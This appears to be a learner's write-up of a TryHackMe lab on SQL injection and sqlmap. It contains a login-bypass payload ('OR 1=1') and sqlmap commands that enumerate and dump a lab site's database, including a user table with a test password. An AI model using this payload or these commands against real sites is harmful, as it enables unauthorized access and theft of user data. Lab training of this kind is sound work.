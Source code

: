 
### **TryHackMe: Cyber Security 101**

**Room:** `SQLMap: The Basics`  
**Status:** Completed  
**Date:** 2025-08-20

----------

### **Goal**

Understand the fundamentals of SQL injection, learn how SQLMap automates detection and exploitation of SQL injection vulnerabilities, and practice extracting database information from a vulnerable web application.

---------

### **Key Topics Covered**


### 1. Databases and SQL

Databases are structured collections of data that can be stored, modified, and retrieved efficiently. Websites and applications use databases to manage user information, such as login credentials and other application data. These databases are managed by Database Management Systems (DBMS) such as MySQL, PostgreSQL, SQLite, or Microsoft SQL Server, which understand SQL (Structured Query Language). Applications interact with the database by sending SQL queries.

For example, when a user logs into a website, the site might execute a query like:

    SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';

This query checks whether a user named John exists and whether the provided password matches. If both conditions are true, the database returns the user’s details to the application.

### 2. SQL Injection

SQL injection occurs when user input is not properly sanitized, allowing an attacker to manipulate SQL queries. This can lead to unauthorized access to sensitive information stored in databases.

For example, entering the following in a password field:

    abc' OR 1=1;-- -

would transform the original query into:

    SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';

Here’s the reasoning behind this injection:

-   The `OR 1=1` condition is always true, bypassing the need for the correct password.
    
-   The `-- -` comments out any remaining part of the original query, preventing syntax errors.
    
-   The single quote `'` ensures that the injected code is interpreted correctly within the SQL statement.
    

This allows attackers to log in as any user without knowing the password, demonstrating the severity of SQL injection vulnerabilities.

### 3. SQLMap Overview

SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities. It simplifies the identification of weak points in web applications. The basic workflow involves:

1.  **Finding a vulnerable URL or request**:
    
    -   GET-based testing uses parameters in the URL to retrieve data.
        
    -   Example:

              sqlmap -u http://sqlmaptesting.thm/search/cat=1

  This command identifies possible SQL injection types on the target URL.
        
-   **Enumerating databases, tables, and records**:
    
    -   List databases:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs

	- List tables in a database:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
	
	- Dump table contents:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users -T thomas --dump

**POST-based testing**:

-   Used for login or registration forms where data is sent in the request body.
    
-   Requires intercepting the request and saving it as a text file:

          sqlmap -r intercepted_request.txt

### 4. Practical Exercise: Testing a Vulnerable Site

I tested a fake vulnerable site provided by TryHackMe with a login form. My steps included:

1.  Opened the developer tools and navigated to the Network tab.
    
2.  Submitted the login form to capture the GET request:

          http://10.10.186.52/ai/includes/user_login?email=email&password=password

3.  Used SQLMap commands to explore the database:
    

-   **Retrieve databases**:

        sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' --dbs

-   Output included: `ai`, `mysql`, `performance_schema`, `phpmyadmin`, `test`.
    
-   **List tables in the `ai` database**:

          sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' -D ai --tables

-   Output: `user`
    
-   **Dump table contents**:

          sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' -D ai -T user --dump

      Output:

        +------+-----------------+---------------------+------------+
        | id   | email           | created             | password   |
        +------+-----------------+---------------------+------------+
        | 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
        +------+-----------------+---------------------+------------+


This practical reinforced how SQL injection vulnerabilities can be identified and exploited using SQLMap.

## What I Learned

-   SQL injection exploits improperly sanitized user input to manipulate database queries.
    
-   SQLMap automates detection, enumeration, and exploitation of SQL injection vulnerabilities.
    
-   GET and POST parameters can be tested differently depending on how data is sent.
    
-   Practical testing allows retrieving databases, table names, and table contents from vulnerable applications.
